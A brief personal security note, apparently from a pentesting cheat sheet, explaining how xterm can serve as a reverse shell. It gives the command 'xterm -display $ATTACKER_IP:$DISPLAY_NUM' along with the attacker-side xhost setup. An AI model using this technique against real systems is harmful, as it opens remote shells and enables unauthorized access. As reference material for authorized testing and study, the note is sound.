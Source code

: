 # Exploiting Xterm

author:: Nathan Acks  
date:: 2022-07-11

## A Simple Reverse Shell

Remember that the X11 protocol is network based! You can thus get xterm to act as a reverse shell by simply providing it with a display pointing to your machine.

```bash
xterm -display $ATTACKER_IP:$DISPLAY_NUM
```

The connection will be made back on port 6000 + `$DISPLAY_NUM` (so, 6000 for display 0, 6001 for display 1, etc.).

This, of course, requires a running X server on your end (for example, `Xnest :1`). You'll need to make sure that connections from the target system are authrized.

```bash
xhost +$TARGET_IP
```

## References

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
